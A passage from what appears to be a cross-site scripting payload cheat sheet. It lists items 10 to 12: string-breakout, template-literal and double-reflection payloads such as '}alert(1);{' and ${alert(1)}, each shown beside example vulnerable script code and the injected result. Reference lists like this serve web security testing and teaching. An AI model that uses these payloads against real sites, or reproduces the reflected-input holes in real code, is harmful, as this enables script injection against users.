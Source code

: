 10. Use when input inside a string delimited value and inside a single logical block like function or conditional (if, else, etc).
```html
'}alert(1);{'
\'}alert(1);{// 
```

* Example source code
```html
<script>
    var greeting;
    var time = 1;
    if (time < 10) {
    test = 'REFLECTED_HERE';
  }
</script>
```

* After input the payload
```html
<script>
    var test;
    var time = 1;
    if (time < 10) {
    test = ''}alert(1);{'';
  }
</script>
```

> Payload number 2 uses when quote escaped by backslash

11. Use when input lands inside backticks delimited strings
```html
${alert(1)}
```

* Example source code
```html
<script>
    var dapos = `REFLECTED_HERE`;
</script>
```

* After input the payload
```html
<script>
    var dapos = `${alert(1)}`;
</script>
```

12. Uses when there is multiple reflections on same page. (Double Reflection)
```html
'onload=alert(1)><svg/1='
'>alert(1)</script><script/1='
*/alert(1)</script><script>/*
```
